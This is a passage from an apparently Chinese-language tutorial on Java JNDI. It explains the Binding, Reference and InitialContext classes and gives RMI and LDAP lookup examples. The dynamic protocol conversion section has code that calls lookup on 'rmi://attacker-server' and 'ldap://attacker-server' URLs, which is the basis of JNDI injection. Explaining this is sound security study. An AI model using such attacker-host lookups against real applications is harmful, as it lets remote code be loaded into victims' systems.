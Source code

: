 这个Binding类其实是NameClassPair的子类，而NameClassPair仅仅包含了命名和对象的类名。NameClassPair在你仅仅想要拿到objcet信息的时候很有用，因为这样你就不必花费额外支持来去获取用不到的这个object本身。

**javax.naming中的reference类**

对象会以不同形式被存储在命名和目录服务中。如果object存储方支持存储java对象，那么他就可能会去以这个object的序列化形式去存储这个object。然而有的命名和目录服务可能不是java写的或者不支持以序列化形式存储这个object。同时，对于目录中的一些object，不单单是Java而是一组应用会去访问这些object，在这种场景下，一个序列化的java object也许就不是最合适的表现方式了。JNDI中定义的reference，就由Reference类去表示，其中包含了如何重建一个相同object的拷贝的信息。JNDI将会去尝试，把lookup拿到的reference去转换成其所代表的java object。这样对于JNDI的客户端来说，具体的存储 转换细节就会被屏蔽，对于客户端来说目录中存放的就是java object。

**javax.naming中的InitialContext类**

在JNDI中，所有的命名和目录操作都是在一个相对的context场景下完成的。InitialContext为这些操作提供了一个初始点，一旦拿到一个initial context，就可以去lookup其他的context和object

PART.3

JNDI范例

JNDI与RMI配合使用：

```
Hashtable env = new Hashtable();env.put(Context.INITIAL_CONTEXT_FACTORY,        "com.sun.jndi.rmi.registry.RegistryContextFactory");env.put(Context.PROVIDER_URL,        "rmi://localhost:9999");Context ctx = new InitialContext(env);
//将名称refObj与一个对象绑定，这里底层也是调用的rmi的registry去绑定ctx.bind("refObj", new RefObject());
//通过名称查找对象ctx.lookup("refObj");
```

JNDI与LDAP配合使用：

```
Hashtable env = new Hashtable();env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.ldap.LdapCtxFactory");env.put(Context.PROVIDER_URL, "ldap://localhost:1389");
DirContext ctx = new InitialDirContext(env);
//通过名称查找远程对象，假设远程服务器已经将一个远程对象与名称cn=foo,dc=test,dc=org绑定了Object local_obj = ctx.lookup("cn=foo,dc=test,dc=org");
```

#### **JNDI动态协议转换**

上面的两个例子都手动设置了对应服务的工厂以及对应服务的PROVIDER\_URL，但是JNDI是能够进行动态协议转换的。

例如：

```
Context ctx = new InitialContext();ctx.lookup("rmi://attacker-server/refObj");//ctx.lookup("ldap://attacker-server/cn=bar,dc=test,dc=org");//ctx.lookup("iiop://attacker-server/bar");
```

上面没有设置对应服务的工厂以及PROVIDER\_URL，JNDI根据传递的URL协议自动转换与设置了对应的工厂与PROVIDER\_URL。

再如下面的：

```
Hashtable env = new Hashtable();env.put(Context.INITIAL_CONTEXT_FACTORY,        "com.sun.jndi.rmi.registry.RegistryContextFactory");env.put(Context.PROVIDER_URL,        "rmi://localhost:9999");Context ctx = new InitialContext(env);
String name = "ldap://attacker-server/cn=bar,dc=test,dc=org";//通过名称查找对象ctx.lookup(name);
```
